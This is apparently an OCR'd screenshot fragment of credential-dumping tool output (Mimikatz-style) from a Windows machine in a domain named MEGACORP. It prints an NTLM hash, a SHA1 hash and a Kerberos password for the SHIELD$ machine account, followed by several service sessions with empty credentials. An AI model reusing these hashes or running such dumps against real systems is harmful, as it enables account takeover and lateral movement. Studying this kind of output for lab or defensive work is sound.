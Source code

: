 ```cmd
Logon Server      : (null)
Logon Time        : 9/7/2021 5:14:32 PM
SID               : S-1-5-82-698136220-2753279940-1413493927-70316276-1736946139
        msv :
         [00000003] Primary
         * Username : SHIELD$
         * Domain   : MEGACORP
         * NTLM     : 9d4feee71a4f411bf92a86b523d64437
         * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
        tspkg :
        wdigest :
         * Username : SHIELD$
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : SHIELD$
         * Domain   : MEGACORP.LOCAL
         * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
        ssp :
        credman :

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 9/7/2021 5:14:11 PM
SID               : S-1-5-17
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 9/7/2021 5:14:08 PM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 66277 (00000000:000102e5)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
```
